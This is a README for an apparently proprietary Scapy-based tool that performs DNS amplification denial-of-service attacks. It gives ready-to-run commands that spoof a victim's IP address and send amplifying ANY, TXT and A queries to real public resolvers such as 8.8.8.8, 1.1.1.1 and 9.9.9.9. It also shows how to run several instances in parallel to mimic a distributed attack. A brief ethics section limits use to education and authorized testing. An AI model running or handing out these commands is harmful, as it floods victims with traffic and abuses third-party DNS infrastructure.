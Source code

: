 # DNS Amplification Attack Simulation

## Overview

DNS Amplification is a type of Distributed Denial of Service (DDoS) attack where attackers exploit open DNS resolvers to overwhelm a target with amplified DNS response traffic. The attack works by sending DNS queries with a spoofed source IP (the victim's) to DNS servers, which then send their responses to the victim, amplifying the attacker's traffic.

This script simulates a DNS amplification attack for educational and authorized security testing purposes.

## Features

- Customizable DNS query types for different amplification factors
- Rate limiting to control traffic generation
- Spoofed source IP address (the victim's address)
- Detailed logging and statistics
- Multiple DNS server targeting

## Requirements

- Python 3.6+
- Scapy library
- Root/Administrator privileges (required for packet manipulation)

## Installation

```bash
# Install required dependencies
pip install scapy
```

## Usage

### Basic Attack

The simplest way to run a DNS amplification attack simulation is to specify a target IP, DNS server, and domain to query:

```bash
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8 -d example.com
```

This will:
- Send 5 DNS queries (default) to the DNS server 8.8.8.8
- Use the spoofed source IP of 192.168.1.10 (the target/victim)
- Query for the domain example.com
- Use the ANY query type (default), which has the highest amplification factor

### Customizing the Attack

#### Specify Multiple DNS Servers

To distribute the attack across multiple DNS servers:

```bash
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8,8.8.4.4,1.1.1.1 -d example.com
```

#### Change Query Type

Different DNS query types have different amplification factors:

```bash
# Use TXT records (medium amplification)
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8 -d example.com -q TXT

# Use A records (low amplification)
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8 -d example.com -q A
```

#### Adjust Query Count and Interval

To control the number of queries and the rate:

```bash
# Send 10 queries with 1 second between each
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8 -d example.com -c 10 -i 1.0
```

#### Enable Verbose Mode

For detailed output and debugging information:

```bash
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8 -d example.com -v
```

## Advanced Usage

### Testing with Different Amplification Factors

To compare the effectiveness of different query types:

```bash
# High amplification (ANY query)
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8 -d example.com -q ANY -c 5

# Medium amplification (TXT query)
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8 -d example.com -q TXT -c 5

# Low amplification (A query)
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8 -d example.com -q A -c 5
```

### Simulating a Distributed Attack

To simulate a more realistic distributed attack:

```bash
# In one terminal
sudo python dns_amplification.py -t 192.168.1.10 -s 8.8.8.8 -d example.com -c 10

# In another terminal
sudo python dns_amplification.py -t 192.168.1.10 -s 1.1.1.1 -d example.org -c 10

# In a third terminal
sudo python dns_amplification.py -t 192.168.1.10 -s 9.9.9.9 -d example.net -c 10
```

## Ethical Considerations

This tool should ONLY be used for:
- Educational purposes
- Authorized security testing
- Understanding DDoS attack vectors

Unauthorized use against systems without explicit permission is illegal and unethical.

## Monitoring the Attack

To monitor the traffic generated by the attack, you can use tools like:

```bash
# Using tcpdump to monitor DNS traffic
sudo tcpdump -i eth0 port 53

# Using iftop to monitor bandwidth usage
sudo iftop -i eth0
```

## Command Line Options

```
-t, --target       Target IP address (victim) (required)
-s, --servers      Comma-separated list of DNS server IP addresses (required)
-d, --domain       Domain name to query (required)
-q, --query-type   Type of DNS query (default: ANY)
                   Options: A, AAAA, TXT, MX, NS, SOA, CNAME, ANY, SRV
-c, --count        Number of queries to send (default: 5)
-i, --interval     Time interval between queries in seconds (default: 0.5)
-v, --verbose      Enable verbose output
```

## License

Proprietary - Montimage

